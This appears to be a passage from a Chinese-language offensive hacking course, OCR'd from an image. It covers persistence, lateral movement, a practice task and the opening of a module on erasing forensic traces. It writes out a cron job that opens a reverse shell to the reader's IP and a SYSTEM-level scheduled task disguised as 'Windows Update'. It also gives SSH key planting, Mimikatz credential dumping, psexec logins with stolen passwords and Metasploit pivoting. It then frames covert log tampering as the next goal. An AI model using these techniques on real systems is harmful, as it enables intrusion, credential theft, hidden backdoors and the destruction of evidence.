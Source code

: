 * **Linux:**

  * **Cron Jobs (定时任务):** `(crontab -l 2>/dev/null; echo "* * * * * /bin/bash -c 'bash -i >& /dev/tcp/Your_IP/Your_Port 0>&1'") | crontab -`。这会每分钟向你反弹一个Shell。
  * **SSH公钥：** 将你的公钥写入 `/home/user/.ssh/authorized_keys` 或 `/root/.ssh/authorized_keys`。你就可以免密登录了。
  * **修改启动脚本：** 在 `/etc/rc.local` 或用户的 `.bashrc` / `.profile` 文件末尾加入你的反弹Shell命令。
* **Windows:**

  * **计划任务 (Scheduled Tasks):** `schtasks /create /sc minute /mo 1 /tn "Windows Update" /tr "C:\Users\Public\backdoor.exe" /ru SYSTEM`。每分钟以SYSTEM权限执行你的后门程序。
  * **注册表启动项：** 在 `HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run` 中添加一个键值，指向你的后门程序。
  * **Metasploit模块：** `use post/windows/manage/persistence_exe` 或 `run persistence` (在Meterpreter中)。它会自动帮你创建持久化后门。

#### **3. 内网漫游 (Lateral Movement)**

你攻陷的Web服务器通常在隔离区（DMZ）。真正的宝藏（数据库、域控服务器、文件服务器）在内网。

1. **以跳板机为中心进行信息搜集：**

   * `ipconfig /all` (Windows) / `ifconfig` (Linux): 查看内网IP段。
   * **端口扫描内网：** 使用跳板机上自带的工具，或上传一个静态编译的 `nmap`，扫描内网其他主机。
   * **抓取凭证：** 在跳板机上（特别是如果它是Windows），运行 `Mimikatz`。这个神器可以直接从内存中抓取明文密码、哈希、Kerberos票据。这是横向移动的黄金钥匙。`meterpreter > load kiwi` 然后 `kiwi_cmd "sekurlsa::logonpasswords"`。
2. **横向移动技术：**

   * **PsExec / WMI:** 使用 `Mimikatz` 抓到的管理员账户和密码/哈希，通过 `psexec` 或 `wmiexec` 在内网的另一台Windows机器上执行命令或获得Shell。
     `psexec.py domain/administrator:password@192.168.10.20 cmd.exe`
   * **SSH:** 如果抓到了私钥或者密码，直接SSH到内网的其他Linux服务器。
   * **Metasploit路由与代理：**
     * 在Meterpreter中，使用 `autoroute` 命令添加一个指向内网的路由。`run autoroute -s 192.168.10.0/24`。
     * 现在，你在Metasploit中对 `192.168.10.x`的任何攻击，都会自动通过你已攻陷的跳板机进行转发。这叫 `Pivoting`（轴枢攻击）。

#### **4. 实战演练**

**你的任务：**

1. 在你已获得Shell的靶机上，上传并运行 `linpeas.sh`。
2. 找到一个提权向量（例如一个SUID二进制文件或内核漏洞），并利用它获得 `root`权限。
3. 以 `root`身份，创建一个Cron Job，每5分钟向你的IP和端口4444反弹一个Shell。验证其有效性（等待5分钟看是否收到新Shell）。
4. **交付物：** 一份文档，记录你提权和建立持久化的所有命令。

---

### **模块五：数字足迹消隐技术**

**目标：** 来如风，去无踪。在完成所有任务后，你需要抹去一切能指向你的痕迹，让数字法医无从下手。

#### **1. 日志清理哲学**

* **日志是你的敌人：** 系统日志、安全日志、Web访问日志、数据库查询日志……它们都是“监控录像”，忠实记录了你的每一次操作。
* **精准手术，而非地毯式轰炸：** `rm -rf /var/log/*` 是最愚蠢的行为。一个空的日志目录比一个有你IP的日志目录更可疑。它告诉管理员：“这里出事了，快来查”。你的目标是，让日志看起来一切正常，只是“恰好”没有记录你的活动。

#### **2. 具体日志文件位置与清理方法**
